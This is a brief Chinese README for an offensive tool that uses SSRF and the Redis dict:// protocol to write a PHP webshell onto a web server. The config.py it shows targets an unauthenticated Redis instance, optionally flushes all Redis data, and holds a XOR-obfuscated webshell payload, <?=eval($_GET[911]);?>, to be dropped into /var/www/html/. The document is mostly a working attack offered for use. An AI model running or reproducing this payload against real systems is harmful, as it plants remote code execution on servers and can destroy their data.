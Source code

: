 ## dict写shell工具 ##
适用于ssrf进行redis-getshell时使用(web write shell)  
前提条件:
* 没有Authentication

config.py
```python
#dict writeshell
SSRFURL="http://127.0.0.1/ssrf.php?url=" #SSRFURL
RHOST="192.168.113.145" #Redis Server
RPORT=6379 #Redis Port
FLUSHALL="yes" #Flushall setting (yes/no)
bgsaveerror="no"
XORKEY="@@@@@@@@@@@@@@@@@@@@@@"
RWEBPORT=80
DIRPATH="/var/www/html/"
SHELLNAME="test.php"
SHELL=r"|\x7f}%6!,hd\x1f\a\x05\x14\x1byqq\x1di{\x7f~" #<?=eval($_GET[911]);?>
```
![](img/faild.png)

![](img/sucess.png)

参考链接:[SSRF打Redis规避坏字符](https://hosch3n.github.io/2020/09/25/SSRF%E6%89%93Redis%E8%A7%84%E9%81%BF%E5%9D%8F%E5%AD%97%E7%AC%A6/#%E4%B8%BB%E4%BB%8E%E5%90%8C%E6%AD%A5%E6%96%87%E4%BB%B6)